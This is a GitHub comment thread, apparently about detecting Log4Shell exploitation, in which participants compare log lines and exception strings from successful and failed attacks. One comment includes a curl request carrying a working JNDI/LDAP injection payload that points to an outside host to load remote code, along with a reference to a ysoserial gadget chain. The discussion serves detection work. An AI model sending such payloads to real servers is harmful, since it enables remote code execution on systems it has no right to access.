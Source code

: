 @Neo23x0
Author
Neo23x0 commented 2 days ago
@Ichimikichiki : Thanks. That happened when I copied it from one system into that text box and thought it was a formatting bug.

@atom-b
atom-b commented 2 days ago
@Neo23x0 This happens with a successful exploitation. I've edited my comment to clarify.

@Azeemering
Azeemering commented 2 days ago
Windows Events:

image

@Neo23x0
Author
Neo23x0 commented yesterday
@atom-b : I don't think that the string BadAttributeValueException: is enough to base a detection on. Could you send me a redacted full log line?

@atom-b
atom-b commented yesterday • 
@Neo23x0

Normal request


$ curl  -H '<logged header>: normalheadercontent' http://localhost/some/endpoint/

<timestamp> DEBUG [some.service.package.SomeClass] - <function name> - request <logged header> header with value of normalheadercontent
Successful exploit:

$ curl  -H '<logged header>: ${jndi:ldap://192.168.1.15:1337/e}' http://localhost/some/endpoint/

<timestamp> DEBUG [<some.service.package.SomeClass>] - <function name> - request <logged header> header with value of BadAttributeValueException: foo=1

The foo=1 looks like it's just hardcoded into the CommonsCollections5 gadget chain in ysoserial https://github.com/frohoff/ysoserial/blob/8eb5cbfbf6c47a23682f6186bea9baf6439e57b9/src/main/java/ysoserial/payloads/CommonsCollections5.java#L79

@PlaJoKur
PlaJoKur commented yesterday • 
Technologies affected do not list SAP, is it because sap uses sapjvm and not jdk . Can we have some clarity on sap whether this vulnerability really affects sap. if yes is there a understanding with sap to provide a patch for this

@atom-b
atom-b commented yesterday
I've only tested this against a tomcat target, but I suspect it applies elsewhere: if the initial string injection succeeds but loading the .class fails, an exception with com.sun.jndi and org.apache.logging.log4j.core in the stack trace is thrown. Below is the result of a .class using a gadget chain which doesn't work on the target, i.e. the chain relies on classes that are not on the classpath. The missing BeanComparator class is used in the gadget chain for this particular example.
